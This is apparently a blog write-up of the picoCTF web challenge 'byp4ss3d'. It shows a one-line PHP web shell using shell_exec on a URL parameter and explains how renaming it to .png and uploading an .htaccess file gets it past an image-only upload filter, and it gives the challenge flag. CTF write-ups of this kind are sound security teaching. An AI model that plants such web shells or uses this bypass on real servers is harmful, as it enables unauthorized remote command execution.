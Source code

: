 ```yaml
---
layout: single
title: "byp4ss3d "
categories: [CTF, web]
permalink: /ctf/picomini-cmu-africa/Web/byp4ss3d/
---
```


## Description:
A university's online registration portal asks students to upload their ID cards for verification. The developer put some filters in place to ensure only image files are uploaded but are they enough? Take a look at how the upload is implemented. Maybe there's a way to slip past the checks and interact with the server in ways you shouldn't. You can access the web application at here!

## Solution:
1. We are given a website with a vulnerable upload function. The goal is to upload a php script that allows us to execute commands on the server. So I wrote the following php script:
```php
<?php
    echo shell_exec($_GET['cmd']);
?>
```
*(It’s also possible to directly state the command to be executed in the php file, but that would mean having to reupload the script every time we wanted to execute a different command. So for convenience, I decided to pass the command as a parameter in the URL.)*
2. When we try uploading the php script, we find that it’s prohibited by the website since it only allows image files. We can bypass this restriction by changing the file extension to .png or .jpg. This successfully allows us to upload our script. 
3. But now we have another problem: since our file has an image extension, the server does not recognise it as php and will not execute it. So, we create another file named .htaccess with the following content. This is a configuration file that control the behaviour of Apache servers at the directory level. We can use it to tell the server to treat image files as php files. 
![.htaccess](images/byp4ss3d-1.png)
*(Note: I converted my php script to a png file, which is why I used .png here.)*
4. Upload .htaccess to the website (if your file browser hides hidden files, press Ctrl + H to show hidden files). Then, try to execute our script again, and we see an error stating that an argument is missing. This means that our script is successfully being executed by the shell! Now, we can explore and find the flag by passing the desired command as a parameter in the URL.
5. We cannot `cd`, so use absolute paths and ls to explore the other directories without navigating to them. 

## Flag:
picoCTF{s3rv3r_byp4ss_20193d1e}